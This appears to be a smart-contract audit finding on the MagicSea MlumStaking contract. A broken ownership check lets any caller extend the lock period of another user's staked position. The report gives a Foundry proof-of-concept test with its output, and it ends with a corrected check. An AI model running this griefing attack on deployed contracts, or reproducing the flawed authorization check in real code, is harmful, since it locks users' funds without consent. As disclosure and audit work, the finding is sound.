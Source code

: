 Young Iron Beaver

Medium

# Access Control Vulnerability in MlumStaking Allows Malicious Users to Extend Lock Duration of Others' Positions

## Summary
The `addToPosition` function in the MlumStaking contract contains an access control vulnerability where the permission check fails due to a logic error, allowing any user to call the function with any tokenID. This flaw permits malicious actors to extend the lock duration of other users' staked positions, potentially leading to significant financial losses.

## Vulnerability Detail
In the MlumStaking contract, the `addToPosition` function is used to add stakedToken to an existing position and update the position data, such as `position.amount` and `position.lockDuration`. According to the function's CODE COMMENTS, this function can only be called by the owner of the corresponding position (lsNFT) or an authorized operator.

```solidity
/**
* @dev Add to an existing staking position
*
* Can only be called by lsNFT's owner or operators
*/
function addToPosition(uint256 tokenId, uint256 amountToAdd) external override nonReentrant {
    _requireOnlyOperatorOrOwnerOf(tokenId);
    require(amountToAdd > 0, "0 amount"); // addToPosition: amount cannot be null
    // skip
}
```

However, the permission verification function `_requireOnlyOperatorOrOwnerOf` used here has a logical flaw.

```solidity
/**
* @dev Check if a userAddress has privileged rights on a spNFT
*/
function _requireOnlyOperatorOrOwnerOf(uint256 tokenId) internal view {
    // isApprovedOrOwner: caller has no rights on token
    require(ERC721Upgradeable._isAuthorized(msg.sender, msg.sender, tokenId), "FORBIDDEN");
}

function _isAuthorized(address owner, address spender, uint256 tokenId) internal view virtual returns (bool) {
    return spender != address(0) && (owner == spender || isApprovedForAll(owner, spender) || _getApproved(tokenId) == spender);
}
```

Clearly, the parameters `owner` and `spender` are both set as `msg.sender`, causing the `_isAuthorized` function to always return true. Therefore, anyone can bypass the `_requireOnlyOperatorOrOwnerOf` function's permission check to call the `addToPosition` function. This introduces an access control vulnerability, allowing any user to use any position's tokenID to call the `addToPosition` function, thereby updating position data in violation of the CODE COMMENTS regarding permissions.

Further, a malicious user could use someone else's position tokenID to call the `addToPosition` function, forcibly extending their lock duration and potentially causing economic harm.

Consider the following scenario:

1. Alice stakes 1e of stakedTokens on day T for 365 days, with the corresponding position's tokenID being 1. She plans to collect rewardTokens and intends to withdraw and sell the stakedTokens after a year.
2. Bob, having a financial dispute or other issues with Alice, discovers that her position's lock period is about to expire. For example, on day T+364, he calls `addToPosition`, inputs tokenId as 1 for Alice's position, and sets the amount as 1e.
3. The `addToPosition` function contains the following logic to update lockDuration:
```solidity
StakingPosition storage position = _stakingPositions[tokenId];

// we calculate the avg lock time:
// lock_duration = (remainin_lock_time * staked_amount + amount_to_add * inital_lock_duration) / (staked_amount + amount_to_add)
uint256 remainingLockTime = _remainingLockTime(position);
uint256 avgDuration = (remainingLockTime * position.amount + amountToAdd * position.initialLockDuration)
/ (position.amount + amountToAdd);

position.startLockTime = _currentBlockTimestamp();
position.lockDuration = avgDuration;
```
Following this logic, Alice's position's lock duration would be updated. Specifically, the `startLockTime` would be set to T+364, and the `lockDuration` would be updated to 183 days, thus requiring an additional 183 days to redeem the stakedTokens.
4. Note that the malicious Bob needs to add stakedTokens to Alice's position to extend the lock period, and the more stakedTokens he adds, the longer the extension (in extreme cases, enough stakedTokens could almost indefinitely extend the duration). Although this appears unprofitable for Bob, such attacks might still occur, as previously mentioned, due to  economic disputes or other reasons, Bob may still maliciously extend the lock period for Alice's position. For Alice, she may have planned to redeem the stakedToken after a year and use it for other purposes, such as repaying a loan. The unexpectedly extended lock up period may result in a temporary lack of funds, leading to liquidation. Moreover, as the price of stakedTokens fluctuates, Bob's malicious extension of the lock period could significantly reduce the value of the tokens when Alice finally withdraws them, compared to their value had they been sold normally after a year. 

Consequently, malicious extension of the lock period could cause substantial financial loss to legitimate users.

The corresponding proof of concept (PoC) is as follows:
```solidity
function _remainingLockTime(IMlumStaking.StakingPosition memory position) internal view returns (uint256) {
    if ((position.startLockTime + position.lockDuration) <= block.timestamp) {
        return 0;
    }
    return (position.startLockTime + position.lockDuration) - block.timestamp;
}
function testRequireAddToPosition() public {
    _rewardToken.mint(address(_pool), 100_000_000);
    _stakingToken.mint(ALICE, 1 ether);

    vm.startPrank(ALICE);
    _stakingToken.approve(address(_pool), 1 ether);
    _pool.createPosition(1 ether, 365 days);
    emit log_string("Alice created a position with 1e stakedToken for 365 days");
    vm.stopPrank();
    skip(364 days);
    emit log_string("364 days later...");
    IMlumStaking.StakingPosition memory p = _pool.getStakingPosition(1);
    emit log_named_uint("remaining lock days: ", _remainingLockTime(p) / 86400);

    vm.startPrank(BOB);
    _stakingToken.mint(BOB, 1 ether);
    _stakingToken.approve(address(_pool), 1 ether);
    _pool.addToPosition(1, 1 ether);
    emit log_string("Bob added 1e stakedToken for Alice's position");
    p = _pool.getStakingPosition(1);
    emit log_named_uint("lock duration days:", p.lockDuration/86400);
    emit log_named_uint("remaining lock days: ", _remainingLockTime(p) / 86400);
}
```

Output:
```solidity
Logs:
Alice created a position with 1e stakedToken for 365 days
364 days later...
remaining lock days: : 1
Bob added 1e stakedToken for Alice's position
lock duration days:: 183
remaining lock days: : 183
```
## Impact
This vulnerability enables unauthorized users to manipulate staking positions, potentially extending other users' lock periods without consent. Such unauthorized actions may lead to unexpected stucking of normal user funds, which may cause significant financial losses due to disruptions in normal user financial planning or fluctuations in token prices.

## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/42e799446595c542eff9519353d3becc50cdba63/magicsea-staking/src/MlumStaking.sol#L138-L143

https://github.com/sherlock-audit/2024-06-magicsea/blob/42e799446595c542eff9519353d3becc50cdba63/magicsea-staking/src/MlumStaking.sol#L392-L428

## Tool used

Manual Review

## Recommendation
To address the identified access control vulnerability in the `addToPosition` function of the MlumStaking contract, it is recommended to modify the `_requireOnlyOperatorOrOwnerOf` function as follows:

```solidity
function _requireOnlyOperatorOrOwnerOf(uint256 tokenId) internal view {
        // isApprovedOrOwner: caller has no rights on token
        require(ERC721Upgradeable._isAuthorized(_ownerOf(tokenId), msg.sender, tokenId), "FORBIDDEN");
    }
```

This change ensures that the `_isAuthorized` function is called with the correct `owner` parameter, specifically `_ownerOf(tokenId)`, which correctly verifies the caller's authorization based on the true owner of the position. 
